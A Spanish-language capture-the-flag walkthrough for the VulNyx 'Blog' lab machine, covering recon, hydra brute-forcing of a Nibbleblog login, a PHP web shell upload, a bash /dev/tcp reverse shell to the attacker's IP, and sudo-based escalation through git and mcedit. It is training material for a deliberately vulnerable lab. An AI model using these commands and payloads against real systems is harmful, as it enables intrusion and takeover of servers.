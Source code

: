 ```yaml
---
layout: post
title: "Blog"
date: 2024-04-22 11:55:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Blog </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#blog"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/blog/host.png){:.margin}

**1\.** Vemos los dispositivos en nuestra red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/blog/arp_scan.png){:.margin}

**2\.** Escaneamos puertos abiertos y versión de servicios que corren.

`sudo nmap -p- -sS -T5 -sC -sV --min-rate=5000 --open -n -Pn 192.168.1.10 -oN report_scan`

![img](/notas/public/img/vulnyx/blog/nmap.png){:.margin}

**3\.** Ojeamos el servicio web de apache, vemos al parecer la salida de un comando.

`htt://192.168.1.10/`

![img](/notas/public/img/vulnyx/blog/80.png){:.margin}

**4\.** Hacemos fuzzing de archivos y directorios.
 
 `gobuster dir -u http://192.168.1.10/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster.png){:.margin}

**5\.** Vamos a la nueva ruta, tenemos una página.

`http://192.168.1.10/my_weblog/`

![img](/notas/public/img/vulnyx/blog/my_weblog.png){:.margin}

**6\.** Presionamos `ctrl+u` para ver el código fuente, podemos ver que está a base de Nibbleblog.

![img](/notas/public/img/vulnyx/blog/ctrl_u.png){:.margin}

**7\.** Otra alternativa para ver la estructura de la web.

`whatweb http://192.168.1.10/my:weblog/`

![img](/notas/public/img/vulnyx/blog/whatweb.png){:.margin}

**8\.** Seguimos fuzzeando ahora en la ruta my_weblog.

`gobuster dir -u http://192.168.1.10/my_weblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster_weblog.png){:.margin}

**9\.** Accedemos a admin.php , tenemos un panel login.

`http://192.168.1.10/my_weblog/admin.php`

![img](/notas/public/img/vulnyx/blog/login.png){:.margin}

**10\.** En nibbleblog tenemos una ruta de usuarios.

`http://192.168.1.10/my_weblog/content/private/ users.xml`

![img](/notas/public/img/vulnyx/blog/users.png){:.margin}

**11\.** Presionamos f12, revisemos como se tramita el login.

![img](/notas/public/img/vulnyx/blog/headers.png){:.margin}

![img](/notas/public/img/vulnyx/blog/payload.png){:.margin}

**12\.** Hacemos bruteforce al panel login teniendo el usuario.

`hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/my_weblog /admin.php: username=^USER^&password=^PASS^:Incorrect" -F -I`

![img](/notas/public/img/vulnyx/blog/hydra.png){:.margin}

**13\.** Creamos un archivo para subirlo y ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/blog/shell.png){:.margin}

_\- Subimos el archivo._

![img](/notas/public/img/vulnyx/blog/upload.png){:.margin}

**14\.** Si buscamos un exploit para nibbleblog encontramos la [ruta](https://www.exploit-db.com/exploits/38489) donde indica como encontrar nuestro archivo.

![img](/notas/public/img/vulnyx/blog/path.png){:.margin}

**15\.** Nos ponemos en escucha.

![img](/notas/public/img/vulnyx/blog/nc.png){:.margin}

**16\.** Enviamos la reverse_shell al nc.

`http://192.168.1.10/my_weblog/content/ private/plugins/ my_image/image.php?cmd= bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

_\- Aquí obtenemos la sessión._

![img](/notas/public/img/vulnyx/blog/reverse_shell.png){:.margin}

_\- Obtenemos la conexión._

![img](/notas/public/img/vulnyx/blog/connected.png){:.margin}

**17\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=/bin/bash`

`export TERM=xterm`

![img](/notas/public/img/vulnyx/blog/stty.png){:.margin}

![img](/notas/public/img/vulnyx/blog/stty2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar git como admin.

![img](/notas/public/img/vulnyx/blog/sudo_l_admin.png){:.margin}

**19\.** Ganamos acceso como usuario admin.

_\- Buscamos en [GTFobins](https://gtfobins.github.io/#git) como escalar:_

`sudo -u admin git -p help config`

`!/bin/bash`

![img](/notas/public/img/vulnyx/blog/git.png){:.margin}

**20\.** Volvemos a revisar permisos sudo, podemos ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/vulnyx/blog/sudo_l_root.png){:.margin}

**21\.** Ganamos acceso como usuario root y leemos la flag.

`sudo -u root mcedit`

`F9 -> enter`

`F11 -> enter`  ... _F9 -> U -> enter (alternativo)_

`s -> enter`

![img](/notas/public/img/vulnyx/blog/mcedit.png){:.margin}

![img](/notas/public/img/vulnyx/blog/mcedit2.png){:.margin}

![img](/notas/public/img/vulnyx/blog/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>